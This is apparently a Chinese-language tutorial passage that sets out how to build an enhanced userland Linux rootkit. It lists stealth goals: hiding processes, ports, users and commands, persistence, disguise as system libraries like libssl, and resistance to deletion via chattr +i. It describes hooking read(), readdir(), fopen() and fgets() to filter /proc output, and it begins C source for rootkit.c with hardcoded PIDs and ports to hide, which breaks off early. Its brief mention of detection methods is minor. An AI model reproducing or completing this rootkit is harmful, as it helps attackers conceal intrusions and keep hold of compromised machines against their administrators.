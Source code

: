    ------

   ## 🧠 补充说明

   - 该方法隐藏的只是通过 **标准用户命令（ps、top、ls）** 看到的进程。

   - 如果攻击者还隐藏了 `/proc` 的访问或在内核中挂钩，就需要用更底层手段（如直接读 `/proc/kallsyms`，或使用内核模块检测）。

   - ## 🚀 增强功能目标

     | 功能              | 说明                                                 |
     | ----------------- | ---------------------------------------------------- |
     | ✅ 隐藏多个进程    | 支持配置多个 PID 或关键字隐藏                        |
     | ✅ 隐藏特定端口    | 让 `netstat`, `ss`, `/proc/net/tcp` 都看不到指定端口 |
     | ✅ 隐藏用户 / 命令 | `ps`, `top` 看不到某些用户名或命令名                 |
     | ✅ 自启动持久化    | 无需人工设置环境变量或重启后依然生效                 |
     | ✅ 伪装系统库      | 看起来像正常的系统共享库，如 `libssl`, `libcrypt`    |
     | ✅ 防删除          | 使用 `chattr +i`、systemd 恢复机制                   |

     

     ------

     ## 🧠 技术核心思路

     为了实现端口隐藏，我们会**劫持 `read()` 函数**，读取 `/proc/net/tcp`、`tcp6` 等文件时，过滤掉目标端口的内容。

     同时我们继续使用 `readdir()` 劫持隐藏 `/proc/[pid]` 的文件夹，增强 `fopen()`、`fgets()` 劫持以隐藏 `ps/top` 的进程信息。

     ------

     ## 🛠️ 完整 Rootkit 示例代码（增强版）

     ### 🔧 文件名：`rootkit.c`

     ```
     c复制编辑#define _GNU_SOURCE
     #include <dirent.h>
     #include <string.h>
     #include <dlfcn.h>
     #include <stdio.h>
     #include <stdlib.h>
     #include <unistd.h>
     
     const char *hide_pids[] = {"1234", "5678", NULL};
     const char *hide_ports[] = {"0A1F", "1F90", NULL}; // 十六进制表示端口：0A1F=2591, 1F90=8080
     
     int match(const char *val, const char **list) {
         for (int i = 0; list[i] != NULL; ++i) {
             if (strstr(val, list[i]) != NULL) return 1;
         }
         return 0;
     }
     